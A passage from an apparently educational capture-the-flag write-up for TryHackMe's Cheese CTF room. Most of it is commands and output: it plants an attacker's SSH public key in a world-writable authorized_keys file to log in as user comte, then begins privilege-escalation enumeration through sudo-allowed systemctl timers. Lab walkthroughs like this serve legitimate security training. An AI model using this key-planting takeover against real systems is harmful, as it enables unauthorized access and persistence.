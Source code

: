 We have landed on the target as the www-data user. We can use this account to enumerate the system internally. If we check in Comte's home directory, we will see that we have write permission to the authorized_keys file in the .ssh directory. 
```bash
www-data@cheesectf:/$ ls -la /home/comte/.ssh/
total 8
drwxr-xr-x 2 comte comte 4096 Mar 25  2024 .
drwxr-xr-x 7 comte comte 4096 Apr  4 17:26 ..
-rw-rw-rw- 1 comte comte    0 Mar 25  2024 authorized_keys
```

The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured. Since we have access to this file we can add our SSH key to this file to allow us to log in as Comte. Let's generate an SSH private/public key pair on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ ssh-keygen -t ed25519                                                                     
Generating public/private ed25519 key pair.                                      <SNIP>
Your identification has been saved in ./comte_id_ed25519         
Your public key has been saved in ./comte_id_ed25519.pub       
<SNIP>

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ ls                                                                                        
comte_id_ed25519  comte_id_ed25519.pub   php_filter_chain_generator.py

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ cat comte_id_ed25519.pub                     
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB6a+idw7BF1swhHqGDVY+DeclQH5edBdzWZp4SOCRz pentester@kali
```

Now, we need to add the content of the comte_id_ed25519.pub file to Comte's authorized_keys file so that our private key can be used to connect as Comte. We replace our username and hostname to Comte's username and computer's hostname before adding it to the  authorized_keys file.
```bash
www-data@cheesectf:/home/comte/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB6a+idw7BF1swhHqGDVY+DeclQH5edBdzWZp4SOCRz comte@cheesectf' > authorized_keys 
```

Now that we have added our public key, we can use the private key to connect to the target as Comte and read the flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ ssh comte@10.10.47.81 -i comte_id_rsa 
<SNIP>
Last login: Thu Apr  4 17:26:03 2024 from 192.168.0.112
comte@cheesectf:~$ ls
snap  user.txt
```

## Post Exploitation

We now have control over the Comte user account and we can further our enumeration. A quick method to enumerate our target is to enumerate the user's sudo rights.
```bash
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer

comte@cheesectf:~$ find /  \( -name exploit.timer -o -name exploit.service \) 2>/dev/null
/etc/systemd/system/exploit.service
/etc/systemd/system/exploit.timer
```